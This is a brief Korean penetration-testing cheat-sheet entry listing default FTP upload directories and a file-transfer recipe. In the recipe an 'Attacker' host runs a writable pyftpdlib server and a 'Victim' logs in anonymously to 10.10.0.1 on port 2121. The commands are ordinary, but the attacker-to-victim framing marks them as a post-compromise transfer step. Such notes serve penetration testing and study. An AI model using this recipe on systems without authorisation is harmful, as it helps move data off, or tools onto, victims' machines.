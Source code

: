 ### 기본값
익명 사용자 업로드: `/var/ftp/` 
사용자 업로드: `/home/<username>`

### ftp 로 파일 전송
```bash
# Attacker
python -m pyftpdlib -w
# Victim
ftp
open 10.10.0.1 2121
anonymous
```
